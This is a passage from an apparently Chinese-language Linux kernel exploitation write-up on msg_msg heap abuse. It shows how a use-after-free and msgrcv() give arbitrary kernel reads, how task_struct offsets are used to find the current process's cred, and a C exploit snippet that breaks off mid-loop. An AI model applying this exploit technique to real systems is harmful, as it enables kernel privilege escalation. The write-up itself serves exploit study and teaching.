 ![2-2](/images/posts/msg_msg/2-2.png)

#### 4.2 步骤2——越界读到任意读，泄露当前进程的cred地址

**思路**：根据`sysfs_bin_kfops_ro` 地址可计算出内核基址，得到[init_task](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched/task.h#L48)的地址，即系统执行的第一个进程的 [task_struct](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L629) 结构。 [task_struct](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L629) 中有3个成员很重要：[tasks](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L734) 包含指向前后 `task_struct`的指针（偏移0x298），[pid](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L804) 进程号（偏移0x398），[cred](https://elixir.bootlin.com/linux/v5.8/source/include/linux/sched.h#L894) 进程的凭证（偏移0x540）。

exp中，我们调用 `find_current_task()` 来遍历所有的task [1]，从`init_task`开始找到当前进程的`task_struct` [2]，`find_current_task()`多次调用 `arb_read()`，**利用UAF篡改`msg_msg->m_ts` 和`msg_msg->next`指针，调用`msgrcv()`**泄露出指向下一个task的`tasks->next`指针 [3] 和 `PID` [4]，然后直到找到当前task。

```c
[...]

uint64_t find_current_task(uint64_t init_task)
{
    pid_t pid, next_task_pid;
    uint64_t next_task;

    pid = getpid();

    printf("[+] Current task PID: %d\n", pid);
    puts("[*] Traversing tasks...");

    leak = arb_read(0, init_task + 8, 0x1500, 1) + 0x1f9;
    next_task = leak[0x298/8] - 0x298;

    leak = arb_read(0, next_task + 8, 0x1500, 1) + 0x1f9;
    next_task_pid = leak[0x398/8];

    while (next_task_pid != pid) 			// [2]
    {
        next_task = leak[0x298/8] - 0x298; 	// [3]
```